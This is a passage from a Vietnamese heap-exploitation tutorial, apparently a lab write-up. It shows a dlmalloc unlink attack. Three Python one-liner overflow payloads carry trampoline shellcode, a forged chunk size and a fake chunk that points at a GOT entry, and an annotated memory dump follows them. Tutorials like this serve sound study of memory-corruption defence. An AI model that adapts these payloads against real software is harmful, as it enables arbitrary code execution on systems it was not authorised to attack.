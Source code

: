 ## Ví dụ 1: unlink khối liền sau

Chúng ta sẽ thiết kế các buffer như sau:

* buffer 1 lưu vào khối đầu tiên sẽ chứa trampoline code
* buffer 2 lưu tràn khối thứ 2 sang meta data của khối 3 để thay đổi `size` và kích hoạt cấu trúc của khối 3.
* buffer 3 sẽ lưu tràn hết `size` mới của khối 3, sau đó tính toán để tạo ra khối giả thứ 4 với meta data và các địa chỉ liên quan.

Logic của chương trình với các buffer này bắt đầu khi `free` được gọi cho khối thứ 3

1. `size` mới của khối 3 có `PREV_INUSE` bit bằng 1 để loại bỏ `unlink` khối liên trước nó; trong ví dụ này, chúng ta chỉ tập trung `unlink` khối liền sau.
2. Khối giả sẽ ở địa chỉ bằng với `size` mới cộng với địa chỉ khối thứ 3; khi đã có địa chỉ này, ta bắt đầu ghi meta data với 4 byte đầu là `prev_size`, 4 byte kế tiếp là `size`, 8 byte cuối chứa địa chỉ đến GOT và trampoline.

Ta sẽ chọn `size` và `prev_size` cho khối giả là `0xfffffffc`. Khi kiểm tra khối giả có phải là khối đã `free` không, chương trình sẽ kiểm tra khối giả thứ 5 khác có địa chỉ offset -4 byte (4 byte phía trước) của khối giả thứ 4 chúng ta tạo ra.
Lúc này, `prev_size` của khối giả thứ 4 chính là `size` của khối giả thứ 5.
`PREV_INUSE` bit bằng 0 cho phép `unlink` được kích hoạt lên khối giả thứ 4.

Sau đây là các buffer theo thiết kế đưa ra.

```bash
python -c 'print "AAAA" *  2 + "\xb8\x64\x88\x04\x08\xff\xd0\xc3"'
python -c 'print "BBBB" *  8 + "CCCC" + "\x65"'
python -c 'print "DDDD" * 23 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "\x1c\xb1\x04\x08" + "\x10\xc0\x04\x08"'
```

Chúng ta sẽ chọn `size` mới cho khối thứ 3 là 100 byte hay `0x64`. Với bit cuối bằng 1, giá trị cần ghi vào là `0x65`.
Trampoline code sẽ có ở `0x0804c010`. Trampoline code có độ dài 8 byte.
Bộ nhớ ngay trước lệnh `free` đầu tiên như bên dưới, trong đó đã highlight <span style="color:springgreen">trampoline code</span> và <span style="color:aqua">khối giả thứ 4</span>.
Địa chỉ được `free` là `0x0804c058`. Do đó, khối sẽ được `free` có địa chỉ là `0x0804c050`.
Lúc này, `0x0804c050` chứa `prev_size`, `0x0804c054` chứa `size`, và `0x0804c058` chứa data.

<pre class="memory">
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      <span style="color:springgreen">0x048864b8</span>      <span style="color:springgreen">0xc3d0ff08</span>      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c040:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c050:      0x43434343      0x00000065      0x44444444      0x44444444
0x804c060:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c070:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c080:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c090:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c0a0:      0x44444444      0x44444444      0x44444444      0x44444444
0x804c0b0:      0x44444444      <span style="color:aqua">0xfffffffc</span>      <span style="color:aqua">0xfffffffc</span>      <span style="color:aqua">0x0804b11c</span>
0x804c0c0:      <span style="color:aqua">0x0804c010</span>      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0f0:      0x00000000      0x00000000      0x00000000      0x00000000
</pre>
